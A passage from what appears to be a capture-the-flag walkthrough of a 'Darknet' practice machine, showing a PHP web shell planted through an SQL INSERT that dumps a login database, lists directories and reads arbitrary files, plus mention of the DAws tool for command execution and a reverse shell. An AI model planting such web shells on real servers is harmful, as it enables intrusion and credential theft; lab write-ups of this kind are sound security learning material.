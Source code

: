 Not to worry, I got this. I knocked up a quick PHP script to do some work for me

{{< highlight php >}}
if ($_GET["cmd"] == "db") {                                                     
    $dbhandler=new SQLite3("/home/devnull/database/888-darknet.db");            
                                                                                
    $query = $dbhandler->query("SELECT * FROM login");                          
                                                                                
    while($result=$query->fetchArray()){                                        
        print_r($result);                                                       
        print "<br/>";                                                          
    }                                                                           
}                                                                               
                                                                                
if ($_GET["cmd"] == "ls") {                                                     
    $path = $_GET["arg"];                                                       
    @chdir($path);                                                              
    $dir = @dir($path);                                                         
    while($d = $dir->read()) {                                                  
        print $d."<br/>";                                                       
    }                                                                           
}                                                                               
if ($_GET["cmd"] == "cat") {                                                    
    $file = $_GET["arg"];                                                       
    $fh = fopen($file, "r");                                                    
    if ($fh) {                                                                  
        while ($l = fgets($fh)) {                                               
            print htmlspecialchars($l)."<br/>";                                 
        }                                                                       
        fclose($fh);                                                            
    } else { print "Cannot open ".$file."<br/>"; }                              
} 
{{< / highlight >}}

I use this as the payload in the `INSERT` statement.

With the `cmd` parameter I can now list directories and cat files. The database
details were added once I had got the details from the db file in the `includes` folder.

I scoped around the server a bit, looking in the usual interesting folders, seeing if there's 
anything useful. Eventually I found something interesting in the Apache
config folder. There's another virtual host on this machine at `signal8.darknet.com`. 

Before I go on, I best mention [DAws](https://github.com/dotcppfile/DAws) which 
will make your life super easy. I crafted a file uploader in PHP which I put on the
server with the SQL admin trick above, and then uploaded the `DAws.php` file. This
will drop a `php.ini` on the server that allows you to run commands, and also create
a reverse shell to your host. **Much** easier than what I did, but you learn new things 
all the time. This will be the PHP script I'll be using going forward.

# Stage 3

Ok, so now I'm looking at the list of Darknet staff. Clicking on the usernames will take 
me to a php page showing me that user's email. While I ponder the significance of this
I check for a robots.txt file and this time there is one. It lists a directory 
called `xpanel` which prompts me for another username and password combo. 
No SQLi here though I'm afraid. I cannot bruteforce this either. Well I *could* 
but I don't think I'll get a hit any time soon.

